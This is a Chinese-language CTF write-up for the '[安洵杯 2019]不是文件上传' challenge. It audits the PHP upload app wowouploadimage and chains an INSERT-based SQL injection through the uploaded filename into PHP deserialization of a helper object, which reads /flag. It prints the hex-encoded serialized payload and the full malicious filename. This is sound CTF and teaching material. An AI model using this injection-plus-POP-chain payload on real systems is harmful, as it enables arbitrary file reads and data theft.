

# \[安洵杯 2019]不是文件上传

## \[安洵杯 2019]不是文件上传

## 考点

* PHP代码审计
* SQL中的INSERT注入
* POP构造

## wp

先随便上传图片，提示上传成功并且图片的id为1

> Your images is uploaded successfully. And your image's id is 1.

在show.php中可以看到上传的图片信息，上传文件的名字被服务器做了加密，根据提示可以知道服务器只存储的图片名字，可能是在文件名那里注入，但是很多信息不知道。

在主页下面可以看到`Powered By wowouploadimage`，在GitHub上可以找到源码，要分析上传的逻辑

假设上传的文件是test.jpg，先看一下`helper::check` 函数的处理，`$info`相当于`$_FILES["file"]` 。

```php
	public function check($info)
	{
		$basename = substr(md5(time().uniqid()),9,16); // 16位随机字符串，假设是ffffffffffffffff
		$filename = $info["name"];  // 上传文件名
		$ext = substr(strrchr($filename, '.'), 1);  // 上传文件后缀名
	    $title = str_replace(".".$ext,'',$filename);  // 上传文件前缀名
	    return array('title'=>$title,'filename'=>$basename.".".$ext,'ext'=>$ext,'path'=>$this->folder.$basename.".".$ext);
	}
```

最后函数的返回是

```php
array('title'=>'test',
      'filename'=>'ffffffffffffffff.jpg',
      'ext'=>'jpg',
      'path'=>'pic/ffffffffffffffff.jpg');
```

然后回到`helper::uplaod` 函数的处理上传文件，按照上面的返回看

```php
	public function upload($input="file")
	{
		$fileinfo = $this->getfile($input);
		$array = array();
		$array["title"] = $fileinfo['title'];        // test
		$array["filename"] = $fileinfo['filename'];  // ffffffffffffffff.jpg
		$array["ext"] = $fileinfo['ext'];            // jpg
		$array["path"] = $fileinfo['path'];          // pic/ffffffffffffffff.jpg
		$img_ext = getimagesize($_FILES[$input]["tmp_name"]);
		$my_ext = array("width"=>$img_ext[0],"height"=>$img_ext[1]);  // 假设宽10 高20
		$array["attr"] = serialize($my_ext);   // a:2:{s:5:"width";i:10;s:6:"height";i:20;}
		$id = $this->save($array);
	}
```

然后看`helper::save`函数保存的逻辑，用了`INSERT`语句进行插入操作

```php
	public function insert_array($data)
	{	
		$con = mysqli_connect("127.0.0.1","root","root","pic_base");
		$sql_fields = array();
		$sql_val = array();
		foreach($data as $key=>$value){
			$key_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $key);
			$value_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $value);
			$sql_fields[] = "`".$key_temp."`";
			$sql_val[] = "'".$value_temp."'";
		}
		$sql = "INSERT INTO images (".(implode(",",$sql_fields)).") VALUES(".(implode(",",$sql_val)).")";
		mysqli_query($con, $sql);
		$id = mysqli_insert_id($con);
		mysqli_close($con);
		return $id;
	}
```

具体的语句是这样，其中title是可控的，那就可以插入任意数据

```sql
INSERT INTO images (`title`,`filename`,`ext`,`path`,`attr`) 
VALUES ('test','ffffffffffffffff.jpg','jpg','pic/ffffffffffffffff.jpg','a:2:{s:5:"width";i:10;s:6:"height";i:20;}')
```

再看看show.php，会直接执行`show::Get_All_Images`这个函数，然后对`attr`的数据进行反序列化

```php
	public function Get_All_Images(){
		$sql = "SELECT * FROM images";
		$result = mysqli_query($this->con, $sql);
		if ($result->num_rows > 0){
		    while($row = $result->fetch_assoc()){
		    	if($row["attr"]){
		    		$attr_temp = str_replace('\0\0\0', chr(0).'*'.chr(0), $row["attr"]);
				$attr = unserialize($attr_temp);
				}}}mysqli_close($this->con);}
```

再看helper类的`__destruct` 和`view_files` 函数，刚好可以构成反序列化链

```php
class helper {	
public function view_files($path){
		if ($this->ifview == False){
			return False;
		}
		$content = file_get_contents($path);
		echo $content;
	}
	function __destruct(){
		$this->view_files($this->config);
	}
}
```

这就连在一起了，接下来构造反序列化就可以

```sql
INSERT INTO images (`title`,`filename`,`ext`,`path`,`attr`) 
VALUES ('test','ffffffffffffffff.jpg','jpg','pic/ffffffffffffffff.jpg','paylaod')#','ffffffffffffffff.jpg','jpg','pic/ffffffffffffffff.jpg','a:2:{s:5:"width";i:10;s:6:"height";i:20;}')
```

```php
<?php
class helper {
	protected $ifview = True; 
	protected $config = "/flag";
}
echo bin2hex(serialize(new helper()));
// 4f3a363a2268656c706572223a323a7b733a393a22002a00696676696577223b623a313b733a393a22002a00636f6e666967223b733a353a222f666c6167223b7d
```

由于属性是`protected` 所以是有不可见字符的，但是在POST传输不会对内容进行URL解码，所以要用SQL可以自动转码的hex编码，用bin2hex函数，最后的语句如下

```sql
INSERT INTO images (`title`,`filename`,`ext`,`path`,`attr`) 
VALUES ('1','1','1','1',0x4f3a363a2268656c706572223a323a7b733a393a22002a00696676696577223b623a313b733a393a22002a00636f6e666967223b733a353a222f666c6167223b7d)#','ffffffffffffffff.jpg','jpg','pic/ffffffffffffffff.jpg','a:2:{s:5:"width";i:10;s:6:"height";i:20;}')
```

上传文件，filename改成`1','1','1','1',0x4f3a363a2268656c706572223a323a7b733a393a22002a00696676696577223b623a313b733a393a22002a00636f6e666967223b733a353a222f666c6167223b7d)#.jpg` ，再访问show.php即可



## 小结

1. PHP反序列化和SQL结合时要注意一下编码问题，如果URL编码不行要试试hex
2. 代码审计搞明白每一段代码作用
